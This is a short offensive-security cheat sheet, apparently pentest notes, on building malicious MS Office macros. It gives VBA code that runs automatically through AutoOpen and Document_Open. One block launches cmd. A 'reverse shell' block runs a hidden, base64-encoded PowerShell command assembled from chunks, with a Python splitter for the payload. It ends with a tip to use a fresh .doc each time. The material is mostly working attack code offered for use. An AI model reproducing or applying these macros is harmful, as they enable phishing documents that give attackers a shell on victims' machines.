 # How to create Macros for MS Office

## CMD

```python

Sub AutoOpen()

  MyMacro
  
End Sub

Sub Document_Open()

  MyMacro
  
End Sub

Sub MyMacro()

  CreateObject("Wscript.Shell").Run "cmd"
  
End Sub
```

## Reverse shell

```python
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
    #use splitter.py 
    #str = "powershell.exe -nop -w hidden -e JABzACAAPQAgAE4AZQB3AC....."
    #n = 50
    #for i in range(0, len(str), n):
	#print "Str = Str + " + '"' + str[i:i+n] + '"'

    Str = "powershell.exe -nop -w hidden -e JABzACAAPQAgAE4AZ"
    Str = Str + "QB3AC0ATwBiAGoAZQBjAHQAIABJAE8ALgBNAGUAbQBvAHIAeQB"
    #etc.

    CreateObject("Wscript.Shell").Run Str
End Sub

```

* Always create a new .doc, don't reuse the old ones